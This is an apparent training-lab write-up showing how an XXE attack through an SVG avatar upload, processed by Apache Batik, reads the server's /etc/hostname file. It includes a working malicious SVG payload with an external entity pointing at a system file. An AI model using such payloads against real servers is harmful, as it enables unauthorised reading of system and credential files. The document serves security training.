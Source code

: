 # Lab: Exploiting XXE via image file upload

 This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 

**HINT**

*The SVG image format uses XML.*

# Step 1 Walk the application's image upload function

I find an avatar upload function when commenting on a blog-post:

![image](https://user-images.githubusercontent.com/83407557/210593803-4a3b31fe-ab83-4ff9-a145-7e9ec5c2f0f6.png)


I see that SVG's are a supported file type for images:

![image](https://user-images.githubusercontent.com/83407557/210594209-5bbc3854-1d11-4e2e-b438-96250d5bb326.png)

![image](https://user-images.githubusercontent.com/83407557/210594314-f1c21911-8828-4f3c-a89b-7b4d1deef3b5.png)

If I look at my svg file, it can be seend that it contains XML:

```bash
└─$ head banana.svg   
<?xml version="1.0" encoding="utf-8"?><svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 111.81 122.88" style="enable-background:new 0 0 111.81 122.88" xml:space="preserve"><style type="text/css">.st0{fill:#7A2E00;} .st1{fill:#FCEB8F;} .st2{fill:#FEDA00;} .st3{fill:#FDF2B4;} .st4{fill:#F5A800;}</style><g><path class="st0" d="M11.22,66.83c-1.71-4.59-3.11-9.33-4.23-14.18c-1.29-5.54-2.21-11.24-2.8-17.03C3.76,31.35,3.05,23.4,3.9,16.2 C4.83,8.42,7.57,1.48,14.32,0.19c11.52-2.2,16.95,15.47,20.2,26.01c0.51,1.67,0.97,3.15,1.37,4.28c1.09,3.1,2.18,6.08,3.31,8.97 c0.84,2.15,1.69,4.22,2.55,6.21c0.26-0.16,0.52-0.3,0.79-0.45c1.89-1,3.94-1.62,6.07-1.91c4.24-0.58,8.43,0.03,12.37,1.45 c4.37,1.57,8.43,4.15
```

# Step 2 Create malicious SVG

I can use the following XML in a local file, and rename it to a .svg file:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">
&xxe;
</text></svg>
```

```bash
└─$ cat xxe.svg   
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

# Step 3 upload malicious xxe.svg file

![image](https://user-images.githubusercontent.com/83407557/210600604-c50db290-f211-4337-afcf-e49ea5418ddf.png)

![image](https://user-images.githubusercontent.com/83407557/210600811-78834c3e-0b93-4155-96ef-75d41cce1b22.png)
![image](https://user-images.githubusercontent.com/83407557/210600862-80bd431b-2d31-4a59-b5bc-7844fbec27d9.png)

# Step 4 inspect SVG

![image](https://user-images.githubusercontent.com/83407557/210601135-ecc7ef93-3fb1-41a5-adc3-8dc1fa6aa0ed.png)

I open the avatar in a new page and see the embeded hostname:

![image](https://user-images.githubusercontent.com/83407557/210601239-b2273a5a-3555-4e6e-b808-d9a3b0b60e97.png)


# Step 5 submit hostname

![image](https://user-images.githubusercontent.com/83407557/210601662-f5c34f18-adcd-4767-9051-24f8b684a328.png)

which solves the lab

![image](https://user-images.githubusercontent.com/83407557/210601712-00205216-08fc-43c1-bff7-0c6969fcfa29.png)


